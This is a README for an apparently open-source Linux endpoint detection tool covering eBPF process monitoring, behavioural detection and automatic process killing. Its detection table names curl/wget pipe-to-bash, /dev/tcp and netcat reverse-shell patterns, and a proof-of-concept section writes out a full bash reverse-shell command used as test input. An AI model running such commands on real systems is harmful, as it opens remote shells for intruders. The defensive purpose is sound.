

<p align="center">
  
</p>

<h1 align="center">Zenith-Sentry EDR v2.0</h1>

<p align="center">
  <i>A Production-Ready, Open-Source Endpoint Detection & Response (EDR) Toolkit for Linux</i>
  <br/>
  <i>Built with an "Assume Breach" philosophy — Hunt threats before they hunt you.</i>
</p>

<p align="center">
  
  
  
  
  
</p>

---

## 📖 Overview
Zenith-Sentry is a **host-based intrusion detection and forensic toolkit** for Linux. Rather than relying on static signatures, it **actively hunts** for behavioral anomalies and in-memory execution patterns, mapping all findings directly to the **MITRE ATT&CK framework**.

**Core Philosophy:** "Assume Breach" — Treat every host as compromised and hunt for the artifacts of infection.

### Key Capabilities
- **Behavioral Threat Detection** — Hunts for suspicious process patterns, not just known malware.
- **eBPF Kernel Monitoring** — System-wide visibility that rootkits cannot evade.
- **Automated JSON Reporting** — Reports saved to `user_data/scan_*.json` automatically.
- **Active Mitigation Engine** — Proactive containment via SIGKILL and IPTables rules.
- **Pluggable Architecture** — Drop in new detection rules without touching core code.
- **MITRE ATT&CK Mapping** — All findings classified by attack tactic.

### What Makes Zenith-Sentry Different?
| Feature | Traditional AV | Zenith-Sentry |
|---------|---|---|
| Detection Method | Signature-based | Behavioral + eBPF |
| Rootkit Visibility | Limited (userspace) | Complete (Kernel-level) |
| False Positives | High | Low (Behavioral Analytics) |
| SIEM Integration | Manual/Complex | Native JSON Stream |
| Plugin System | Closed-source | Open & Extensible |

---

## 📂 Detailed Project Structure
The following manifest outlines the role of every component in the Zenith-Sentry v2.0 toolkit:

```text
Zenith-Sentry/
│
├── 🚀 ENTRY POINTS
│   ├── main.py                    # Hardened CLI Interface (for SIEM/Automation)
│   ├── gui.py                     # Premium Interactive TUI (for Live Hunting)
│   ├── start.sh                   # Unified Setup & Launcher (Automated venv)
│   └── process_execve_monitor.py  # Standalone eBPF Kernel Event Manager
│
├── 🛡️ CORE SECURITY ENGINE (zenith/)
│   ├── engine.py              # Central Orchestration & Risk Scoring
│   ├── collectors.py          # Telemetry Subsystem (Process/Network/System)
│   ├── core.py                # Data Models & Finding Interfaces
│   ├── registry.py            # Dynamic Plugin Loader
│   ├── config.py              # Secure Configuration Parser
│   └── utils.py               # Shared Production Utilities
│
├── ⚡ KERNEL PROBES (zenith/ebpf/)
│   ├── execve_monitor.c       # BPF C Program (Hooks sys_execve)
│   └── README.md              # Technical eBPF Reference & Performance Specs
│
├── 🔌 DETECTION PLUGINS (zenith/plugins/)
│   ├── detectors.py           # Standard Behavioral Detectors (Proc/Net)
│   ├── ebpf_detector.py       # eBPF Kernel Event Analysis Engine
│   └── __init__.py            # Plugin Package Marker
│
├── ⚙️ CONFIGURATION & ASSETS
│   ├── config.yaml            # Runtime Security Policies & Whitelists
│   ├── requirements.txt       # Hardened Dependency Manifest
│   ├── install_ebpf_deps.sh   # BCC Toolkit Installer for all Linux Flavors
│   ├── logo.svg               # Brand Identity Asset
│   └── README.md              # [THIS FILE] Unified Documentation Guide
│
└── 💾 RUNTIME DATA (Created at first run)
    └── user_data/             # Timestamped JSON Forensic Reports
```

---

## 🏗️ Architecture Deep Dive
Zenith-Sentry uses a decoupled, event-driven architecture designed for high-performance telemetry processing and real-time mitigation.

### How a Scan Works


---

## 🛡️ Hardened Security Engine (eBPF + Mitigation)
Zenith-Sentry v2.0 integrates kernel-level visibility with proactive response.

### ⚡ Kernel-Level Visibility
Captured via the `sys_execve` tracepoint, providing zero-evasion visibility:
- **Zero Evasion**: Captures binary execution *before* the process starts.
- **Full Context**: Captures PID, PPID, UID, GID, Command, and Exit status.
- **Performance**: ~1-2 microseconds per event, <1% CPU impact.
- **SIEM Ready**: Direct JSON streaming of kernel events for remote logging.

### 🛡️ Active Threat Mitigation
When a high-risk signature is matched (e.g., unauthorized reverse shell):
1. **Neutralize**: Automatically send `SIGKILL` to the offending process.
2. **Contain**: Append `IPTables` rules to block the destination C2 IP.
3. **Audit**: Forensic evidence recorded in `user_data/` for incident response.

### 🔍 Built-in Detection Patterns
| Pattern | MITRE Tactic | Risk | Description |
|---|---|---|---|
| `curl ... \| bash` | Execution (T1059) | CRITICAL | Remote code execution via curl pipe |
| `wget ... \| bash` | Execution (T1059) | CRITICAL | Remote code execution via wget pipe |
| `/dev/tcp/...` | C2 (T1071) | CRITICAL | Direct bash reverse shell attempt |
| `nc -e /bin/sh` | C2 (T1071) | HIGH | Netcat reverse shell connection |
| `\|sh` | Execution (T1059) | HIGH | Direct pipe to system shell |

---

## 🚀 Usage & Deployment Guide

### Deployment (Rapid Start)
```bash
# Clone and Run in one step
git clone https://github.com/syed-sameer-ul-hassan/Zenith-Sentry.git
cd Zenith-Sentry
./start.sh
```

### 🛰️ eBPF Kernel Monitor (Standalone)
```bash
# Human-readable live stream
sudo python3 process_execve_monitor.py --human

# Production JSON stream for SIEM ingestion
sudo python3 process_execve_monitor.py --source zenith/ebpf/execve_monitor.c
```

### 🔍 Zenith Engine CLI
```bash
# Full behavioral system scan with eBPF enabled
sudo python3 main.py full-scan --ebpf --json

# Scan specific components with filters
python3 main.py process --risk-threshold 75 --verbose
```

---

## 📈 Functional Proofs (PoC)
Real-world evidence of v2.0 protection.

#### [CASE 1] Detection of Reverse Shell
**Input:** `sh -i >& /dev/tcp/10.0.0.1/4444 0>&1`
**Zenith Output:**
```text
[!] ALERT: HIGH RISK - Command & Control Pattern
    - PID      : 8241
    - Action   : Reverse Shell string matched
    - RISK     : CRITICAL (100/100)
```

#### [CASE 2] Active Neutralization
If `--enforce` is active, the threat is killed instantly.
```text
[MITIGATION] THREAT DETECTED — Neutralizing PID 8241
[MITIGATION] SIGKILL sent. PID 8241 terminated.
[MITIGATION] Remote IP 10.0.0.1 blocked via IPTables rules.
```

---

## 🔧 Requirements & Support
- **Python**: 3.8+ (Automated via `start.sh`)
- **Kernel**: 4.8+ (5.8+ recommended for Ring Buffer support)
- **Privileges**: Root required for eBPF and Mitigation features.
- **eBPF Support**: Run `sudo bash install_ebpf_deps.sh` if BCC/headers are missing.

---

<p align="center">
  <b>Built for Linux defenders. Optimized for the modern threat landscape.</b>
  <br/>
  MIT License | v2.0 Flagship Edition
</p>
